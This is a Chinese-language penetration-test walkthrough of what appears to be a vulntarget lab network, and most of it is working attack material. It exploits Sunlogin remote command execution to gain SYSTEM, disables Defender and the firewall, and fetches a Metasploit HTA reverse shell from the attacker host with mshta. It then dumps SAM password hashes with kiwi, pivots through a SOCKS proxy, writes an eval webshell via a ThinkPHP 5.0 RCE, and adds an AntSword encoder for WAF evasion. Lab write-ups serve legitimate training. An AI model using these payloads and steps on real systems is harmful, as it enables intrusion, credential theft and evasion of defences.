### sunlogin-rce

- 全端口扫描(比较费时),这里不展示了

```cmd
C:\Users\24937>nmap -T4 -sV --unprivileged -Pn -p 1-65535 192.168.111.20
Starting Nmap 7.95 ( https://nmap.org  ) at 2025-11-28 14:19 中国标准时间
Nmap scan report for 192.168.111.20 (192.168.111.20)
Host is up (0.080s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
5985/tcp  open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
c/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service  :
SF-Port49670-TCP:V=7.95%I=7%D=11/28%Time=69294438%P=i686-pc-windows-window
SF:s%r(GetRequest,8E,"HTTP/1\.1\x20200\x20OK\r\nCache-Control:\x20no-cache
SF:\r\nContent-Type:\x20application/json\r\nContent-Length:\x2046\r\n\r\n{
SF:\"success\":false,\"msg\":\"Verification\x20failure\"}")%r(HTTPOptions,
SF:8E,"HTTP/1\.1\x20200\x20OK\r\nCache-Control:\x20no-cache\r\nContent-Typ
SF:e:\x20application/json\r\nContent-Length:\x2046\r\n\r\n{\"success\":fal
SF:se,\"msg\":\"Verification\x20failure\"}")%r(FourOhFourRequest,8E,"HTTP/
SF:1\.1\x20200\x20OK\r\nCache-Control:\x20no-cache\r\nContent-Type:\x20app
SF:lication/json\r\nContent-Length:\x2046\r\n\r\n{\"success\":false,\"msg\
SF:":\"Verification\x20failure\"}");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/  .
Nmap done: 1 IP address (1 host up) scanned in 1513.96 seconds
```

- 指纹识别,`5985/tcp  open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)`确定是`Windows`操作系统,`5985/tcp  open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)`为向日葵的服务



- 漏洞利用,使用burp抓包

```http
GET /cgi-bin/rpc?action=verify-haras HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Host: 192.168.111.20:49670
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Connection: close
Content-Length: 0


```

```cmd
HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: text/html
Content-Length: 87

{"__code":0,"enabled":"1","verify_string":"DTOAQFngEPZBDNNp5QLOYftzErN7RBCA","code":0} 
```

- 将`DTOAQFngEPZBDNNp5QLOYftzErN7RBCA`构造为`Cookie: CID:DTOAQFngEPZBDNNp5QLOYftzErN7RBCA`

```http
GET /check?cmd=ping..%26c:%26%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2Fwhoami HTTP/1.1
Host: 192.168.111.20:49670
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: CID=DTOAQFngEPZBDNNp5QLOYftzErN7RBCA

```

```cmd
HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: text/json
Content-Length: 21

nt authority\system

```

******

### 关闭杀软

```http
GET /check?cmd=ping..%26c:%26%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2Ftasklist HTTP/1.1
Host: 192.168.111.20:49670
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: CID=DTOAQFngEPZBDNNp5QLOYftzErN7RBCA

```

```cmd
HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: text/json
Content-Length: 4093


ӳ������                       PID �Ự��              �Ự#       �ڴ�ʹ�� 
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        140 K
smss.exe                       272 Services                   0      1,204 K
csrss.exe                      376 Services                   0      2,980 K
csrss.exe                      476 Console                    1      4,144 K
wininit.exe                    504 Services                   0      5,000 K
winlogon.exe                   528 Console                    1     11,860 K
services.exe                   608 Services                   0      6,776 K
lsass.exe                      624 Services                   0     12,836 K
svchost.exe                    712 Services                   0     17,884 K
svchost.exe                    776 Services                   0      9,684 K
svchost.exe                    864 Services                   0     50,136 K
svchost.exe                    900 Services                   0     19,152 K
dwm.exe                        936 Console                    1     97,744 K
svchost.exe                    980 Services                   0     21,692 K
svchost.exe                    344 Services                   0     16,100 K
svchost.exe                    760 Services                   0      5,068 K
svchost.exe                    840 Services                   0     23,160 K
svchost.exe                   1284 Services                   0     17,360 K
spoolsv.exe                   1444 Services                   0     14,688 K
svchost.exe                   1484 Services                   0     18,012 K
svchost.exe                   1612 Services                   0     16,024 K
svchost.exe                   1672 Services                   0      6,240 K
MsMpEng.exe                   1696 Services                   0    164,620 K
vm3dservice.exe               1704 Services                   0      4,412 K
vmtoolsd.exe                  1744 Services                   0     17,784 K
VGAuthService.exe             1788 Services                   0      6,708 K
SunloginClient.exe            1856 Services                   0     43,940 K
vm3dservice.exe               1892 Console                    1      5,008 K
dllhost.exe                   2356 Services                   0     10,252 K
SunloginClient.exe            2480 Services                   0     38,412 K
msdtc.exe                     2616 Services                   0      7,948 K
svchost.exe                   2708 Services                   0      8,104 K
WmiPrvSE.exe                  2912 Services                   0     28,444 K
ChsIME.exe                    3160 Console                    1     14,844 K
vm3dservice.exe               3224 Console                    1      6,928 K
RuntimeBroker.exe             3408 Console                    1     14,320 K
WmiPrvSE.exe                  3444 Services                   0     19,544 K
sihost.exe                    3488 Console                    1     19,372 K
svchost.exe                   3520 Console                    1     19,360 K
taskhostw.exe                 3540 Console                    1     14,512 K
ChsIME.exe                    3744 Console                    1     15,072 K
explorer.exe                  3836 Console                    1     81,396 K
ShellExperienceHost.exe       3020 Console                    1     40,352 K
SearchUI.exe                   692 Console                    1     21,300 K
ServerManager.exe             4296 Console                    1    152,736 K
vmtoolsd.exe                  4352 Console                    1     15,192 K
SunloginClient.exe            4896 Console                    1     78,792 K
MusNotification.exe           5060 Services                   0        204 K
MusNotificationUx.exe         3588 Console                    1      1,672 K
MpCmdRun.exe                  2496 
```



- 关闭Defender

- ```cmd
  set-MpPreference -DisableRealtimeMonitoring $true
  ```

******

### 上线MSF

- 生成msf马

```cmd
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.111.25 lport=4444 -f hta-psh -o msf.hta
```


- 执行命令(本地python起一个服务),执行

```http
GET /check?cmd=ping..%26c:%26%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2Fmshta%20http://192.168.111.25:8002/msf.hta HTTP/1.1
Host: 192.168.111.20:49669
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cookie: CID=xNgzTtNIdKYq6v4djTx1wvUfJ1Ph51kX
Priority: u=0, i

```

- msf本地监听

```cmd
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport 4444
set lhost 192.168.111.25
run
```



******

### 信息收集



- 发现`192.168.100.0/24`网段,添加路由

```cmd
meterpreter > run post/multi/manage/autoroute
```


- 先用MSF搞不过去了再用CS
- 上传`Fscan`扫描看看

```cmd
C:\Windows\system32>fscan -h 192.168.100.0/24
fscan -h 192.168.100.0/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-11-28 15:52:40] [INFO] 暴力破解线程数: 1
[2025-11-28 15:52:40] [INFO] 开始信息扫描
[2025-11-28 15:52:40] [INFO] CIDR范围: 192.168.100.0-192.168.100.255
[2025-11-28 15:52:40] [INFO] 生成IP范围: 192.168.100.0.%!d(string=192.168.100.255) - %!s(MISSING).%!d(MISSING)
[2025-11-28 15:52:40] [INFO] 解析CIDR 192.168.100.0/24 -> IP范围 192.168.100.0-192.168.100.255
[2025-11-28 15:52:40] [INFO] 最终有效主机数量: 256
[2025-11-28 15:52:40] [INFO] 开始主机扫描
[2025-11-28 15:52:41] [SUCCESS] 目标 192.168.100.155 存活 (ICMP)
[2025-11-28 15:52:44] [INFO] 存活主机数量: 1
[2025-11-28 15:52:44] [INFO] 有效端口数量: 233
[2025-11-28 15:52:44] [SUCCESS] 端口开放 192.168.100.155:445
[2025-11-28 15:52:44] [SUCCESS] 端口开放 192.168.100.155:139
[2025-11-28 15:52:44] [SUCCESS] 端口开放 192.168.100.155:135
[2025-11-28 15:52:49] [SUCCESS] 服务识别 192.168.100.155:445 =>
[2025-11-28 15:52:49] [SUCCESS] 服务识别 192.168.100.155:139 =>  Banner:[.]
[2025-11-28 15:53:49] [SUCCESS] 服务识别 192.168.100.155:135 =>
[2025-11-28 15:53:49] [INFO] 存活端口数量: 3
[2025-11-28 15:53:49] [INFO] 开始漏洞扫描
[2025-11-28 15:53:49] [INFO] 加载的插件: findnet, ms17010, netbios, smb, smb2, smbghost
[2025-11-28 15:53:49] [SUCCESS] NetInfo 扫描结果
目标主机: 192.168.100.155
主机名: WIN-HHP4Q76IAO9
发现的网络接口:
   IPv4地址:
      └─ 192.168.111.20
[2025-11-28 15:54:12] [SUCCESS] 扫描已完成: 6/6
```

- 抓`ntml`密码hash

```cmd
load kiwi
lsa_dump_sam
```


|    用户名     |   密码    |            NTML hash             |
| :-----------: | :-------: | :------------------------------: |
| Administrator |  win2008  | 388f586516a4cba963b4181363b44034 |
|      ash      | qweASD123 | 96783bb69c00614e88f7d4688623c83a |

- 设置个代理

```cmd
use auxiliary/server/socks_proxy
set SRVHOST 0.0.0.0
set SRVPORT 10800
set VERSION 5
run -j
```



- 最后把防火墙关了,担心影响后续操作

```cmd
netsh advfirewall set allprofiles state off
```



******

### 上线CS

```cmd
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set prependmigrate true
set DisablePayloadHandler true
set LHOST 192.168.111.25
set LPORT 680
set SESSION 1
run
```


- 端口扫描




- 发现`192.168.100.131`是linux操作系统,扫到了8888端口,前面msf配置了12800 socks代理,配置规则访问看看




- 访问发现是`宝塔面板`,但是没有找到宝塔面板漏洞利用
- 回到CS浏览探测,发现目标机器有firefox浏览器,尝试把它的浏览器浏览记录下载到本地


- 然后用数据库可视化工具打开(这里我用`Navicat`)


- 这里发现有关`192.168.100.131`的三条访问记录

```cmd
http://192.168.100.131/
http://192.168.100.131/vulntarget/public
http://192.168.100.131/vulntarget/public/index.php
```

- 尝试访问看看,测试发现三个路径访问都是`400`,再继续搜索


- 看了下桌面文件,将其下载到本地看看

```cmd
www.vuln.com
www.vulntarget.com
www.FS7wMulnfB.com
www.o83ICtTsqe.com
www.RiOzVfkUr5.com
www.UDv8EYtgsK.com
www.ZOfiMoEB6D.com
www.7ZGyFKCoEf.com
www.Qb7IfDdLG1.com
www.BF3rJMZ7mE.com
www.ndGRQN1Y8a.com
www.ib8VLBetFq.com
www.WONAkV2cQE.com
www.A70odBc9Mf.com
www.TPMRBpUK3l.com
www.7rDnhaqejG.com
www.k3TevFAKo5.com
www.vy8pfUa4iM.com
www.XMWNdfwz6H.com
www.B6W9wZQXLK.com
www.mx50NbFVoJ.com
www.Q0snxpvubJ.com
www.7Ej5D3riFH.com
www.CdtqiST4Hz.com
www.3jRgaSJwFH.com
www.EXxKu2kcGz.com
www.4lTocubBDK.com
www.to9DcHeuJ7.com
www.WuYnqOB1ca.com
www.IMOKcCaRmu.com
www.V3vNeGrwRQ.com
www.8F2uyseHYO.com
www.7Vi6v8REjS.com
www.SZFx59QqY7.com
www.j7qY1LHSci.com
www.ZdBJnaw3ei.com
www.sZGPzDLfOy.com
www.ohqwdHmcPj.com
www.3ImwHpBTtC.com
www.DVuSbU4wzN.com
www.cJO6w10YLS.com
www.Gqto98PZpY.com
www.3g2lzLsTAB.com
www.Q5c4OWv6fS.com
www.ynZsciNO7Q.com
www.XkhpAoIxKy.com
www.B7IPY5Na1O.com
www.gUIcZVxkSA.com
www.LOFW5rt0dl.com
www.DsKme9Zw5B.com
www.TcbNh1OKZP.com
www.i8v15NgHsr.com
www.vulntarget-e.com
```

- 发现是一堆主机名(host),试试`host碰撞`

******

### Host碰撞




- 发现是`5.0`版本的`thinkphp`,这里有宝塔waf,绕过有难度,自己花了很多时间,最终看了大佬的手法

******

### ThinkPHP-rce

```http
GET /vulntarget/public/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=../../2.php&vars[1][1]=%3C?php%20eval(urldecode(urldecode(urldecode($_REQUEST[cmd]))));?%3E HTTP/1.1
Host: www.cJO6w10YLS.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: ab59b37c917dc8b2b679867f942f1f17=f933ae52-696a-4b84-a5b0-06cb6f322f18.fUtgQEcx7yaNI2ZeAtV7QD40yIc; 89f4d97909c0b84c27453e1fb9e72cc4=0c28b060-95b8-4b07-8f5e-8f3d032c41b8.dKpGgxW8S7I6CBH3FdOnwy5Os_M; 6b4ac316e5136e63d9efeef7f4a20137=f52cdeac-abdf-4c17-8a22-198f71b07ead.QUWDN2i4nzUuA7Orx-MTTFONA-Q
Connection: keep-alive


```

- 编写`蚁剑`编码器规则

```cmd

'use strict';

  // ##########    请在下方编写你自己的代码   ###################
function forceEncode(s) {
  return Array.from(s).map(i=>'%'+i.charCodeAt(0).toString(16).padStart(2,'0')).join('')
}

module.exports = (pwd, data, ext={}) => {
  const payload = data['_']
  data[pwd] = forceEncode(forceEncode(payload));
  delete data['_'];
  console.log(data);
  return data;
}
```

- 连接蚁剑,`注意`需要挂上msf配置的代理我的前面配置的是10800 socks5,然后添加host头

